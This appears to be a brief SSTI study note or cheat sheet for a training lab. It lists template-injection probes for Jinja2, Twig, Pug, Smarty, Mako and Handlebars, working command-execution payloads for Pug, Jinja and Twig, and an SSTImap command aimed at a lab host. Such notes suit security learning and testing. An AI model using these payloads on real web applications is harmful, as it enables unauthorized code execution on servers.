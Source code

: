 
1. **Jinja2 (python)/Twig (PHP)** - `{{7*'7'}}`
2. **Jade/Pug** (Node)
	* `#{7 * 7}`
3. Smarty (PHP) - `{'Hello'|upper}`
4. Pug (node)
	* `#{root.process.mainModule.require('child_process').spawnSync('ls', ['-lah']).stdout}`
5. Jinja (python)
	* `{{"".__class__.__mro__[1].__subclasses__()[157].__repr__.__globals__.get("__builtins__").get("__import__")("subprocess").check_output("ls")}}`
6. Make (python)
	* ${7 * 7}
7. handlebars (node)
	* {{7+7}}

##### Automation
```bash
git clone https://github.com/vladko312/SSTImap.git
```
```bash
python3 sstimap.py -X POST -u 'http://ssti.thm:8002/mako/' -d 'page='
```

#### Twig
`{{['id',""]|sort('passthru')}}`